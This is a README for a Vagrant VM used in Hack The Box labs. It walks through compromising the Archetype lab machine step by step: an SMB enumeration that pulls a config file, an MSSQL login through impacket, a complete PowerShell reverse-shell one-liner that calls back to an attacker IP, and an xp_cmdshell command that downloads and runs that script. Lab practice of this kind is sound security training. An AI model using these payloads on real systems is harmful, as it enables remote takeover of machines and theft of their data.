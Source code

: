 # README.md
Build an ubuntu hack the box 
  
## Prequisites
[Vagrant Setup](../README.md)

## TODO
* Vagrant user allows non-ssh login with default password
* Solve the lynis issues

## Build the VM

### Configure Network
Avoid adding to home network to prevent bridging. 

### Data Folder
1. Create a data folder in the repo root.
1. Download the ovpn file from HTB and copy to data folder

### Connect to HTB VPN
```sh
sudo openvpn /vagrant_data/<user>.ovpn
```

### Test HTB
```sh
nmap -sV 10.10.10.0/24
smbclient -N -L \\\\10.10.10.27\\
smbclient -N  \\\\10.10.10.27\\backups
dir
get prod.dtsConfig
cat prod.dtsConfig
```

### Impacket
```sh
git clone https://github.com/SecureAuthCorp/impacket
pip install .
./mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```


### Reverse Shell
Find your local IP and save a script to host
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Host the script
```sh
python3 -m http.server 80
nc -lvnp 443
```

Enable Firewall
```sh
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

Invoke it from SQL
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```
